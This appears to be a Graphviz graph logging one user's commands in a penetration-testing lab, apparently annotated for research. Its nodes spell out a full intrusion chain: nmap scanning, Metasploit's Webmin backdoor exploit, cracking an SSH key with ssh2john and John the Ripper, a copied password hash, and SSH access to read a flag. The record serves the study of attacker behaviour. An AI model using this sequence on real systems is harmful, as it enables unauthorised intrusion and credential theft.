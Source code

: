 // creating graph for user: 80
digraph {
	node [shape=box]
	0 [label="nmap -A 172.18.1.5 A0 "]
	1 [label="nmap -A -p 1-65536 A0 "]
	2 [label="nmap -A -p 1-65536 172.18.1.5 A0 "]
	3 [label="nmap -A -p 1-65535 172.18.1.5 A0 "]
	4 [label="msfconsole U"]
	5 [label="search webmin U"]
	6 [label="use exploit/unix/webapp/webmin_backdoor U"]
	7 [label="options U"]
	8 [label="set RHOST 172.18.1.5 U"]
	9 [label="set RHOSTS 172.18.1.5 U"]
	10 [label="ip a U"]
	11 [label="set LHOST 10.1.135.83 U"]
	12 [label="nmap -A 10.1.17.4 A0 "]
	13 [label="vim key U"]
	14 [label="ssh2john U"]
	15 [label="john key U"]
	16 [label="cat key  U"]
	17 [label="locate *2john U"]
	18 [label="/usr/share/john/ssh2john.py key > key.hash U"]
	19 [label="john key.hash U"]
	20 [label="cat key.hash U"]
	21 [label="run U"]
	22 [label="sessions -l U"]
	23 [label="sessions -h U"]
	24 [label="sessions -u 2 U"]
	25 [label="sessions -l U"]
	26 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	27 [label="echo 'eve:$6$eDIUpTqNub/vHNdW$1OxDFqCfsUBdhYWqY6f2P37WcGUznmP7BCEmEADlIkvxkpjzOy3zv3MJTxAC53a1oPtoBpvzRksNCzO4pppiy.:18451:0:99999:7:::'  U"]
	28 [label="sessions -i 3 U"]
	29 [label="run U"]
	30 [label="sessions -l U"]
	31 [label="sessions -U 4 U"]
	32 [label="sessions -u 4 U"]
	33 [label="ls U"]
	34 [label="./ssh2john.py key > key2.hash U"]
	35 [label="john key2.hash U"]
	36 [label="locate *ockyou* U"]
	37 [label="john --wordlist=/usr/share/wordlists/rockyou.txt key2.hash U"]
	38 [label="ssh -h U"]
	39 [label="ssh -i key eve@10.1.17.4 U"]
	40 [label="chmod 600 key U"]
	41 [label="ssh -i key eve@10.1.17.4 U"]
	42 [label="ssh -i key eve@10.1.17.4 U"]
	43 [label="ls U"]
	44 [label="cd top-secret/ U"]
	45 [label="ls U"]
	46 [label="cat flag.txt A8 M8 "]
	47 [label="cat /usr/share/wordlists/rockyou.txt  U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	rankdir=LR
}
